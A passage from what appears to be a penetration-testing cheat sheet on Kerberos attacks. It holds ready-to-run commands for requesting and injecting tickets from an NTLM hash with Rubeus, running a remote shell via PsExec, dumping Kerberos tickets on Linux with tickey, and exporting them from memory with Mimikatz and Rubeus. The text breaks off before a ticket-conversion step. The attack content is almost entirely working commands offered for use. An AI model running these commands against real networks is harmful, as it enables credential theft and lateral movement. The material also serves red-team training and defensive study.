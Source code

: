 ### Windows (internal)

With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Pass The Ticket (PTT)

> MiTM, lsass with mimi&#x20;

### Linux (external)

Check type and location of tickets:

```
grep default_ccache_name /etc/krb5.conf
```

If none return, default is FILE:/tmp/krb5cc\_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being _KEYRING_ tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Windows (internal)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter):
